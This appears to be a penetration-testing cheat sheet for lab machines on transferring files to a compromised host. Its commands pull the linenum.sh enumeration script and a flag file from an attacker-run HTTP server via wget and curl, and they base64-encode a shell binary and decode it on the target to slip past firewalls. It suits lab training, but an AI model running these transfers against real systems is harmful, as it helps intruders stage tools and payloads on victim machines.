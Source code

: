# wget and curl

From our box :
cd /tmp
python3 -m http.server 8000

On the remote host :
wget http://10.10.14.1:8000/linenum.sh

wget http://10.10.16.39:8000/c:/inetpub/wwwroot/wss/VirtualDirectories/flag.txt

curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

# scp

scp linenum.sh user@remotehost:/tmp/linenum.sh

# Base64

In order to bypass firewall protections.

Encode a file named "shell" on our machine : base64 shell -w 0
Decode on the remote host : echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

# Validating file transfers 

Command "file" to check the type of the file : file shell
Calculate hash : md5sum shell
